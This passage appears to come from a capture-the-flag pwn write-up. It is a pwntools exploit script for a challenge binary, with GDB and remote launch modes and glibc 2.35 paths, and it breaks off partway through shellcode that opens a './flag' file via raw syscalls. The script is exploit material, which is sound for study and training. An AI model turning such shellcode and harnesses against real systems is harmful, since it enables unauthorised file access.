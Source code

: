 ##### 2.2.2 完整脚本

```python
#!/usr/bin/env python

'''
    author: Lufiende
'''

from pwn import *
from LibcSearcher import *
import ctypes

filename = "pwn"
libcname = "/home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libc.so.6"
filearch = 'amd64'
isAttach = 0
context.log_level = 'debug'
context.os = 'linux'
context.arch = filearch
context.terminal = ["/mnt/c/Windows/System32/cmd.exe", '/c', 'start', 'wsl.exe']

elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)

gdbscript = '''
b main
set debug-file-directory /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6-dbg_2.35-0ubuntu3.8_amd64/usr/lib/debug
set directories /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/glibc-source_2.35-0ubuntu3.8_all/usr/src/glibc/glibc-2.35
'''

processarg = {}

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gdbscript, env=processarg)
    elif args.REMOTE:
        return remote(host, port)
    elif args.ATTACH:
        global isAttach
        isAttach = 1
        return process(elf.path, env=processarg)
    else:
        return process(elf.path, env=processarg)

def dbg():
    if isAttach:
        gdb.attach(io, gdbscript = gdbscript)
        
io = start()

############################################
shellcode = asm(
    '''
    mov rax, 0x67616c662f2e
    push rax
    mov rsi, 0
    mov rdi, rsp
    mov eax, 2
    syscall				// open()
```